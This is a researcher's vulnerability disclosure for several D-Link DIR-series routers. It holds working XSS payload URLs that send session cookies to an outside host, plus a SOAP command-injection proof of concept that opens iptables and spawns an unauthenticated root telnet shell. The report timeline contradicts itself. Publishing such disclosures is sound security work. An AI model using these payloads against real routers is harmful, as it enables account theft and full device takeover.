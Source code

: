 ## 0x00 Product Description
Dlink is a multinational networking equipment manufacturing corporation.

The Dlink 860L/865L/868L/880L are wireless "Cloud" Router.

The vulnerabilities details are as follows:

Vendor: D-Link

Devices: DIR-880 REVA / DIR-868 REVA / DIR-865 / DIR-860 REVA

Firmware:

DIR-880L_REVA_FIRMWARE_PATCH_1.08B04

DIR868LA1_FW112b04

DIR-865L_REVA_FIRMWARE_PATCH_1.08.B01

DIR860LA1_FW110b04

## 0x01 Vulnerabilities Summary
The Dlink 860L/865L/868L/880L is a router overall badly designed with a lot of vulnerabilities.

My research in analyzing the security of Dlink routers starts from a recent security contest organized by a security company.

## 0x02 The summary of the vulnerabilities is:
1. WAN && LAN - revA/B - XSS - CVE-2018-6527, CVE-2018-6528, CVE-2018-6529
2. LAN - revA/B - OS command injection - CVE-2018-6530

## 0x03 Details - WAN && LAN - revA/B - XSS

After analyzing PHP files inside /htdocs/webinc, I found several trivial XSS vulnerabilities.

An attacker can use the XSS to target an authenticated user in order to steal the authentication cookies.

1. xss inside /htdocs/webinc/body/bsc_sms_send.php
```php
[…]
                <span class="value">
                        <input id="receiver" type="text" size="50" maxlength="15" value="<? echo $_GET["receiver"]; ?>"/>
                </span>
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_send.php?receiver="><script>window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie)</script><"

2. xss inside /htdocs/ webinc/js/adv_parent_ctrl_map.php
```php
[…]
                var msgArray =
                [
                        '<?echo i18n("You have successfully configured your router to use OpenDNS Parental Control.");?>',
                        '<?echo i18n("Do you want to test the function?");?>',
                        '<p><input type="button" value="<?echo i18n('Test');?>" onclick="window.open(\'http://www.opendns.com/device/welcome/?device_id=<? echo $_GET["deviceid"];?>\')" /><input type="button" value="<?echo i18n('Return');?>" onClick="self.location.href=\'adv_parent_ctrl.php\';" /></p>'
                ];
                BODY.ShowMessage('<?echo i18n("OpenDNS PARENTAL CONTROLS");?>', msgArray);
[…]
```

An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/adv_parent_ctrl_map.php?deviceid=whatever\');window.open(\'http://9.9.9.9:9999/cookie.asp?msg=\'+document.cookie

3. xss inside /htdocs/ webinc/js/bsc_sms_inbox.php
```php
[…]
        InitValue: function(xml)
        {
                var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';		
         … 
        }
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_inbox.php?Treturn=0';window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie);get_Treturn='1

## 0x04 Details - LAN - revA/B - Command injection in SOAP controlType url interface

The vulnerability occurs in /htdocs/cgibin which is executed by the web server for, just handles almost http requests from WAN and LAN, and my research in analyzing SOAP interface started from a security analysis report regarding UPNP protocol, then I reviewed the SOAP interface, which is handled by the soapcgi_main function in cgibin, seems to have been mostly overlooked.

It should be noted that you could insert and execute malicious commands without privilege, meanwhile the injection point is the service field which is passed to soap.cgi to indicate control type, this exploitation also works even if invalid SOAPAction and whatever XML stream in a request.

Here’s the code in C to show some details about this issue:
```c
/* Grab a pointer to the request url */
requri = getenv("REQUEST_URI");
/* goto failure if the urquri does not start with "?service=" */
if((query = strchr(requri, "?")) == NULL or strncmp(query, "?service=", strlen("?service=")))
{
    goto failure_condition;
}
/* Point the control type field pointer 9 bytes beyond the requri */ 
controlType = query + strlen("?service=");

... ...

/* Create/open a shell script using the specified control type string */
sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
fn = fopen(filename "a+");
/* Write self-deleting command into the srcipt and execute it by "sh -c"*/
if(fn)
{
    fprintf(fn, "rm -f %s/%s_%d.sh", "/var/run", controlType, getpid());
    fclose(fn);
    sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
    system(filename);
}
```
Proof of concept:
```
POST /soap.cgi?service=whatever-control;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -t nat -P PREROUTING ACCEPT;iptables -t nat -P OUTPUT ACCEPT;iptables -t nat -P POSTROUTING ACCEPT;telnetd -p 9999;whatever-invalid-shell HTTP/1.1
Host: 192.168.100.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

whatever-content

Here, we can easily build a soap http request and embed malicious command that spawns a telnet server on WAN that provides an unauthenticated root shell into it, and then login into router using telnet:
$ telnet 192.168.0.1 9999
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.
```
## 0x05 Report Timeline

Dec 8, 2017: Vulnerabilities found.

Jul 18, 2018: Reported to security@dlink.com.

Jul 18, 2018: The vendor followed up and made a schedule to fix it.

Feb 1, 2018: Reported those security issues to MITRE.

Feb 1, 2018: MITRE provides CVE-2018-6527, CVE-2018-6528, CVE-2018-6529, CVE-2018-6530.

Mar 1, 2018: The vendor release security announcement for customers.  

Mar 2, 2018: I decide to make a public disclosure.

## 0x06 Credits

These vulnerabilities were found by Kaixiang Zhang.

## 0x07 References

### DIR-880L RevA

![Release Notes - ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_NOTES_1.08B06_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_NOTES_1.08B06_EN_WW.pdf)

![Firmware - ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_v1.08B06_BETA.zip](ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_v1.08B06_BETA.zip)

### DIR-865L RevA  
![Release Notes - ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_NOTES_1.10B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_NOTES_1.10B01_EN_WW.pdf)

![Firmware - ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_v1.10B01_BETA.zip](ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_v1.10B01_BETA.zip)

### DIR-868L RevA 
![Release Notes - ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_NOTES_1.20B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_NOTES_1.20B01_EN_WW.pdf)

![Firmware - ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_v1.20B01_BETA.zip]
(ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_v1.20B01_BETA.zip)

### DIR-860L RevA
![Release Notes - ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_NOTES_1.11B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_NOTES_1.11B01_EN_WW.pdf)

![Firmware - ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_v1.11B01_BETA.zip](ftp://FTP2.DLINK.COM/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_v1.11B01_BETA.zip)
